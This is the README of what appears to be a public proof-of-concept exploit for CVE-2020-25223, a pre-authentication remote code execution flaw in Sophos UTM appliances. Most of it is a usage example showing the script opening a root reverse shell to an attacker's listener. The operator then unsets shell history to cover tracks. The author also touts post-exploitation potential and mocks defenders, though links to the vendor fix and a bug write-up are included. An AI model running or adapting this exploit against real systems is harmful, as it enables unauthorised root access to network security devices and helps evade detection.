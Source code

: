 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth. Implemented this quickly as it was needed to unify some threat magnets. 


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Scanning/Detection
Not implemented in this, just use the [nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-25223.yaml).

## Post-exploitation notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation. 

## Blue team notes
I'm sure someone who cares can fill this in. Bitter (a subset of "blue team twitter") will probably do so shortly. I mean, it can't be that hard to detect an unencrypted reverse shell beaconing out from your Unified Threat Manager box right?

## Fixing the bug  
Someone (presumably from Sophos) sent this over, its the official fix link. Go update your UTM. https://www.sophos.com/en-us/security-advisories/sophos-sa-20200918-sg-webadmin-rce

## References, etc.

Third party reference (bug details): https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223

Direct complaints to Sophos, who somehow thought passing user input to `open()` in Perl was a good idea in the 21st century. 
